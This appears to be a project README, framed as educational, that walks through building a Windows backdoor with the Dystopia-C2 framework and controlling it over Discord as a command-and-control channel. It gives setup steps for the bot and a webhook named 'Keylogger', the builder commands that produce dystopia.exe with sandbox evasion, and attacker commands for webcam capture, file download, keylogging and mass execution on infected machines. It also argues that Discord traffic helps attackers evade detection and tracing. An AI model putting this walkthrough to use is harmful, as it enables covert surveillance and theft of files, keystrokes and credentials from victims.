


This project is an educational initiative designed to demonstrate the risks and vulnerabilities of using trusted platforms, like Discord, for malicious purposes. It highlights how attackers can exploit Discord as a Command-and-Control (C2) channel to remotely control compromised Windows systems. The purpose of this project is to educate and raise awareness about cybersecurity threats.
Project Overview
In this simulation, an attacker sets up a covert communication channel using a Discord bot to send and receive commands to/from a target machine. Discord, being a widely trusted platform, helps attackers evade traditional detection mechanisms such as firewalls and antivirus solutions.
Key components of the project include:
- Discord Bot Creation: A bot is configured via Discord's developer tools to act as the intermediary for the attack.
- Payload Deployment: A backdoor is created for Windows systems, enabling remote access.
- Command Execution: Once the payload is active, various commands can be issued to the compromised system.
Key Features
- Leveraging Trusted Platforms: Demonstrates how Discord’s infrastructure can be exploited for malicious activities while mimicking normal traffic.
- SSL-Enforced Encryption: Ensures all communication between the attacker and the target is encrypted, making it challenging for security measures to detect malicious activities.
- Practical Demonstration: Showcases step-by-step instructions for bot setup, payload deployment, and executing commands on the target system.
- Capabilities of Exploitation: Commands demonstrated include:
- Capturing screenshots from the compromised system.
- Accessing saved browser credentials.
- Activating and capturing images from the webcam.
- Uploading and downloading files.
Why Use Discord Over Traditional Hacking Methods?
Traditional Hacking Methods
Traditional Command-and-Control (C2) techniques often rely on infrastructure directly controlled by attackers, such as private servers, domains, or self-hosted systems. These methods involve setting up communication channels to interact with compromised machines. Examples include:
- Port Forwarding and IP Hosting: Attackers traditionally used open ports to send payloads and receive responses from compromised systems. They often set up IP addresses or domains to host the malware and C2 interface.
- Custom C2 Servers: Dedicated servers are set up to handle the incoming and outgoing commands between the attacker and compromised systems.
- DNS Tunneling or Custom Channels: Attackers create unique protocols or leverage DNS queries to bypass basic network security mechanisms.
Challenges of Traditional Methods
- Easily Flagged by Security Systems: Firewalls, intrusion detection systems (IDS), and antivirus programs are highly adept at detecting and blocking unknown IPs, non-standard protocols, and suspicious domain activity.
- High Cost and Maintenance: Maintaining private infrastructure (like servers) is resource-intensive. It requires constant monitoring, upkeep, and reinvention to avoid detection by security analysts.
- Traceability: Attackers using custom domains or servers risk having their IP addresses tracked and shut down by law enforcement.
Why Replace Traditional Methods with Discord?
Advantages of Discord-Based C2
- Trusted Infrastructure: Discord is a widely used, legitimate platform with millions of users globally. Security solutions are designed to trust Discord's traffic, making it easier for attackers to "hide in plain sight."
- Free and Low-Maintenance: Attackers no longer need to maintain costly private servers. Discord provides all the infrastructure needed for communication at no cost.
- Encrypted Traffic: All communication between the attacker and Discord's servers is SSL-encrypted, ensuring that security systems cannot easily inspect the content of the traffic.
- Ease of Setup: Configuring a Discord bot is simple and requires minimal technical knowledge compared to setting up custom servers.
- Port-Free Operation: With Discord, there’s no need for port forwarding or open ports on the attacker’s or victim’s side. Communication is entirely routed through Discord’s existing servers.
- Multi-Platform Integration: Discord bots can integrate with other services, such as Telegram or GitHub, to expand their reach and capabilities.
- Obfuscation of Malicious Traffic: Discord traffic mimics legitimate communication patterns, making it harder for detection tools to distinguish between genuine user activity and malicious payloads.
Comparison Table: Traditional C2 vs. Discord-Based C2
| Aspect | Traditional C2 | Discord-Based C2 |
|---|---|---|
| Infrastructure | Requires self-hosted servers | Uses Discord’s trusted servers |
| Cost | High (server hosting, domains) | Free (Discord’s infrastructure) |
| Detection | Easily flagged by IDS and firewalls | Blends into legitimate traffic |
| Ease of Setup | Complex (requires technical expertise) | Simple and beginner-friendly |
| Encryption | Custom encryption or none | SSL-enforced by Discord |
| Maintenance | Requires constant updates | Minimal maintenance required |
| Scalability | Limited by resources | High scalability with Discord |
| Legal Risks | High (directly associated with servers) | Harder to trace (Discord handles hosting) |
Educational Objectives
- Understanding Exploitation Risks: Illustrates how attackers can misuse legitimate services like Discord for malicious purposes.
- Raising Awareness: Encourages individuals and organizations to better understand these threats and adopt stronger cybersecurity measures.
- Encouraging Ethical Hacking: Inspires ethical hackers to explore innovative ways of defending against such attack vectors.
Technical Deep Dive: Dystopia-C2
This section details the practical steps for setting up the Discord C2 mechanism using the Dystopia-C2 framework for educational demonstration.
1. Installing Dystopia-C2 on Kali Linux
Clone the Dystopia-C2 repository from GitHub:
git clone https://github.com/3ct0s/dystopia-c2Navigate into the directory and prepare the environment for running Dystopia-C2:
cd dystopia-c22. Setting up a Discord Server
- Log in to your Discord account.
- Go to Settings → Advanced Options and enable Developer Mode.
- Create a new server with any preferred name (e.g., "server").
3. Creating a Discord Bot
- Visit the Discord Developer Portal.
- Click on New Application and name your bot.
- Navigate to the Bot section and scroll down to enable Privileged Gateway Intents (select all options and save changes).
- Go to OAuth2 → URL Generator, select Bot, and set its privileges to Administrator.
- Copy the generated URL, paste it into your browser, and select the server you created earlier to add the bot.
4. Retrieving and Storing the Bot Token
- In the Developer Portal, go to the Bot section and click Reset Token to generate your bot token.
- Copy the token and paste it into the server's chat or store it securely for future use.


5. Creating a Webhook
- Navigate to Discord Server Settings → Integrations → Webhooks.
- Create a new webhook (default name: "Spidey Bot"), rename it to Keylogger, set the channel to "General," and save changes.


6. Generating the Backdoor
- Open your Kali terminal and navigate to the
dystopia-c2directory. - Run the builder tool:
sudo python3 builder.py - Select the Discord module:
use discord
 

Configure the following settings for the backdoor:
- Name: Set the backdoor name to
dystopia. - Guild ID: Right-click the server name in Discord and select Copy Server ID.
- Bot Token: Use the token generated earlier.
- Channel ID: Right-click the "General" channel and select Copy Channel ID.
- Webhook URL: Go to Server Settings → Integrations → Webhooks, click on "Keylogger," and copy the webhook URL.
- Build the bot:
Confirm the build by typingbuildywhen prompted. - The generated backdoor (
dystopia.exe) will appear in thedistdirectory.
7. Sandbox Evasion
- The backdoor includes sandbox evasion by default.
- If the Windows host is a virtual machine (VM), the bot will terminate execution to prevent dynamic analysis.
8. Running the Backdoor
- Transfer the
dystopia.exefile to a Windows machine. - Run the executable.
- Once executed, the bot sends a message to the Discord server notifying the attacker of a new agent online.
- Multiple agents can be connected and managed simultaneously.
Examples of Commands
1. Listing Active Agents
list agentsDisplays all connected agents in the system.
2. Accessing the Webcam
webcam captureTakes a snapshot using the webcam of the compromised system.
3. File Download
download <file_path>Downloads a specified file from the compromised system to the attacker's machine.
4. Keylogging
start keyloggerStarts capturing keystrokes from the victim’s system.
5. Mass Command Execution
mass exec <command>Executes a command across all connected agents simultaneously.
Disclaimer
This project is strictly for educational purposes only. It is intended to raise awareness about potential misuse of trusted platforms like Discord. Please use this knowledge responsibly and ethically.